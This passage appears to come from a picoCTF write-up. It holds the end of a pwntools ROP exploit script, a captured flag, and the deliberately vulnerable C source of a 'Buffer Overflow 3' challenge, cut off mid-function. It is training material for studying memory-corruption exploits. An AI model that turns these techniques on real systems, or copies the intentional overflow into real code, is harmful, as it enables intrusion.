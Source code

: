 ```python
    rop += p32(0xBAAAAAAD) #arg for win_function2()
    rop += p32(0xDEADBAAD) #arg for flag()

    r.sendlineafter('> ',payload+rop)
    r.interactive()
    return
```

```bash
picoCTF{rOp_aInT_5o_h4Rd_R1gHt_6e6efe52}
```

## Buffer Overflow 3
Source
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 32
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("Canary is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
```